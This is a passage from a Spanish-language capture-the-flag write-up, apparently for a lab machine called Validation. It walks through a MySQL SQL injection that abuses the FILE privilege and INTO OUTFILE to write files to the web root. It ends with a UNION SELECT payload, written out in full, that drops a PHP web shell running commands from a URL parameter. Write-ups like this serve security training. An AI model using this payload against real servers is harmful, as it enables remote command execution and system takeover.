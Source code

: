Veo el hash y los usuarios pero por lo visto son los usuarios que ingrese anteriormente por lo tanto esto no me lleva a mucho

![Hash](../assets/images-Validation/Hash.png)

Intentare con `into outfile` ver si tengo la capacidad de escribir un archivo y depositarlo en una ruta, gracias al error provocado anteriormente pude ver la ruta `/var/www/html/` entonces intentare cargarlo en esa ruta, la pagina me muestra un error

![Test](../assets/images-Validation/test.png)

Pero veo que el archivo si me lo crea
- *Esto se debe a que el usuario tiene el permiso FILE por lo tanto se puede usar el comando load_file() e into outfile estos comando basicamente permiten leer o escribir archivos en el sistema de archivos del servidor donde se ejecuta la base de datos MySQL*

![File](../assets/images-Validation/File.png)

Por lo tanto como la pagina interpreta PHP, cargare una webshell

```php
' union select "<?php system($_GET['cmd']);?>" into outfile"/var/www/html/test.php"-- -
```
![WebShell](../assets/images-Validation/webshell.png)
